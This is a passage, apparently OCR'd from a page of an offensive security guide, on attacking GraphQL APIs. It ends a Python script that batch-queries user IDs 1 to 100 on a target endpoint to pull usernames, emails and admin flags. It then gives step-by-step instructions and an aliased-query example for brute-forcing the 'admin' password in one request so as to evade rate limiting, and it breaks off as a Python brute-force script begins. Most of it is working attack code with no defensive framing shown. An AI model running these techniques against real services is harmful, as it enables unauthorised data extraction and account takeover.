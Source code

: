                    print(f"[+] Successfully extracted data for {len(extracted_data)} users")
                   return extracted_data
               except Exception as e:
                   print(f"[-] Error processing response: {str(e)}")
           else:
               print(f"[-] Request failed with status code {response.status_code}")
           
           return None
       
       # Example usage
       query_template = """
       {
         user(id: "{{ID}}") {
           username
           email
           isAdmin
         }
       }
       """
       
       # Test with IDs from 1 to 100
       exploit_batch_queries("https://target.com/graphql", query_template, range(1, 101))
       ```
    
    2. **Using aliases for brute force attacks**:
       - Step 1: Create a single query with multiple aliased operations
       - Step 2: Each aliased operation tests a different value (password, etc.)
       - Step 3: Send as a single HTTP request to bypass request-based rate limiting
       - Step 4: Analyze the response to identify successful operations
       - Step 5: Automate to test large numbers of values
       - Example aliased query for brute forcing:
       ```graphql
       {
         try1: login(username: "admin", password: "password1") {
           success
           token
         }
         try2: login(username: "admin", password: "password2") {
           success
           token
         }
         try3: login(username: "admin", password: "password3") {
           success
           token
         }
       }
       ```
       - Python script for alias brute forcing:
       ```python
       import requests
       